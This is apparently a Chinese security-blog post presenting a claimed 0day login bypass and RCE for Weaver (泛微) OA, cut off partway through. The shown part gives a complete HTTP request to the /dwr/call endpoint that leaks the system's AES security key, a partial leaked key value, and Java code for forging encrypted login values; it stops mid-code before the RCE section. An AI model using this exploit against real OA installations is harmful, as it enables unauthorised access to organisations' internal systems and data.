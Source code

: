 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkyMjU2Nzc1Mg==&mid=2247484640&idx=1&sn=c857908da5054d90101ba39b5081669d

#  泛微OA前台登录绕过+后台RCE【0day】  
 LHACK安全   2025-07-02 02:01  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x01 登录绕过  
### 利用/dwr/call接口读取加密key  
  

```
POST /dwr/call/plaincall/?callCount=1&c0-id=1&c0-scriptName=WorkflowSubwfSetUtil&c0-methodName=LoadTemplateProp&batchId=a&c0-param0=string:mobilemode&scriptSessionId=1&a=.swf HTTP/1.1
Host: xxx:xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1

```

  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5ceGLwibV7eibnrbLN1s9VOtTUMFUFw5wm7jEQPWogeciaf1KLHCTIGRUiaAeyDOQmIhQIrqMQ5JjyZ0A/640?wx_fmt=other&from=appmsg "")  
  
其中security.key为 5f2f28dd-db4a-45  
### 调用aes加密函数  
  

```
import java.security.SecureRandom;
import javax.crypto.Cipher;
import javax.crypto.KeyGenerator;
import javax.crypto.spec.SecretKeySpec;
import javax.xml.bind.DatatypeConverter;

publicclass Main {
    public static String encrypt(String str, String str2) {
        try {
            KeyGenerator keyGenerator = KeyGenerator.getInstance(&#34;AES&#34;);
            SecureRandom secureRandom = SecureRandom.getInstance(&#34;SHA1PRNG&#34;);
            secureRandom.setSeed(str2.getBytes());
            keyGenerator.init(128, secureRandom);
            SecretKeySpec secretKeySpec = new SecretKeySpec(keyGenerator.generateKey().getEncoded(), &#34;AES&#34;);
            Cipher cipher = Cipher.getInstance(&#34;AES&#34;);
            cipher.init(1, secretKeySpec);
            return DatatypeConverter.printHexBinary(cipher.doFinal(str.getBytes()));
        } catch (Exception e) {
            e.printStackTrace();
            return&#34;&#34;;
        }
    }

    public static void main(String[] args) {
```